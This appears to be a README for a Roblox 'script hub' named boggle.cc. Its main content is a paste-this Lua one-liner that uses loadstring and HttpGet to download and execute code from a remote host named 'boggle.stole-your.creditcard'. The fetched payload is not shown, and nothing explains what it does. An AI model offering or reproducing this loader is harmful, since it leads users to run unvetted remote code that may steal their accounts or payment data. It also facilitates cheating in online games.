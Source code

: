 ## boggle.cc

Official boggle.cc script hub!

```lua
local boggle = "https://boggle.stole-your.creditcard/p/raw/s17keh366s"
loadstring(game:HttpGet(boggle))()
```
